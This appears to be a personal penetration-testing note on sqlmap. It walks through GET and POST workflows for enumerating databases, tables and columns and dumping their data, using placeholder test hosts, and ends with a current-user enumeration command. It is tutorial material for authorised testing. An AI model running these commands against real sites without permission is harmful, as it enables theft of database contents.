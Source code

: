 
---
sqlmap is an open source penetration testing tool developed by Bernardo Damele Assumpcao Guimaraes and Miroslav Stampar that automates the process of detecting and exploiting SQL injection flaws and taking over database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester, and a broad range of switches lasting from database fingerprinting, fetching data from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

## Usage
---

There are two ways we can take advantage of sqlmap GET and POST:

### GET

The simple way to check with sqlmap the vulnerable web page is the following (GET METHOD):

```
# In the next command we retrieve all the database names
sqlmap -u https://testsite.com/page.php?id=7 --dbs
```

With the name of the database we can check for tables with the next command:

```
sqlmap -u https://tessite.com/page.php?id=7 -D DATABASE_NAME --tables
```

When we have the tables we need to check the columns of the table that we want to check for:

```
sqlmap -u https://test.com/page.php?id=7 -D DATABASE_NAME -T TABLE_NAME --columns
```

To get the information of the table name there are two options dump all o dump specific columns

```
sqlmap -u https://test.com/page.php?id=7 --dump -C COLUMN_NAME -T TABLE_NAME -D DBNAME 
```

### POST


For POST METHOD, is most complicated:

- We first need to get the post request on [[burpsuite]] and save it to a file .txt:
	![[Pasted image 20240715195832.png]]
- We can see in the example that there's a variable called blood_group who can be vulnerable to sql injection.
- Then we need to use sqlmap to check the POST REQUEST
	```
	sqlmap -r texfile.txt -p parameter --dbs
	```

Now that we have the databases, we need to find the tables name:

```
sqlmap -r textfile.txt -p parameter -D DATABASE_NAME --tables
```

Now we need to retrieve the column name of the table that we want to get the information:

```
sqlmap -r textfile.txt -p parameter -D DATABASE_NAME -T TABLE_NAME --columns
```

To get the information of the table name there are two options dump all o dump specific columns

```
sqlmap -r textfile.txt -p parameter --dump -T TABLE_NAME -D DBNAME 
```

---

## Enumeration commands

To know the user that is running the database:

```
sqlmap -u http://test.com/shell.php?id=7 --current-user
```
